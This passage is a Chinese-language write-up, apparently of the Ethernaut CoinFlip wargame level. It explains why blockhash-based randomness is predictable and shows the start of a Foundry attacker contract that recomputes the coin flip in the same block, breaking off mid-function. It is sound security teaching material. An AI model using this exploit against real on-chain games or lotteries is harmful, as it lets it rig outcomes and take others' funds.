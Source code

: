 ```solidity
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

### 漏洞识别

**伪随机数的根本缺陷**：

1. **数据源可预测** - `blockhash(block.number - 1)` 是公开可查的
2. **算法透明** - 随机数生成算法完全公开
3. **确定性计算** - 相同输入必然产生相同输出

**攻击原理**：

```solidity
// 合约使用的"随机数"生成
uint256 blockValue = uint256(blockhash(block.number - 1));
uint256 coinFlip = blockValue / FACTOR;
bool side = coinFlip == 1 ? true : false;

// 攻击者可以在同一个区块内执行相同计算
// 由于使用相同的 blockhash，结果必然相同！
```

### 攻击流程

1. **获取当前区块哈希** - 读取 `blockhash(block.number - 1)`
2. **执行相同计算** - 使用相同的算法计算结果
3. **提前知道答案** - 在调用 `flip()` 前就知道正确答案
4. **提交正确猜测** - 保证100%胜率

## 💻 Foundry 实现

### 攻击合约代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/CoinFlip.sol";

contract CoinFlipAttacker {
    CoinFlip public target;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    constructor(address _target) {
        target = CoinFlip(_target);
    }
    
    function attack() public {
        // 🎯 关键：在同一区块内执行相同的计算
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        
```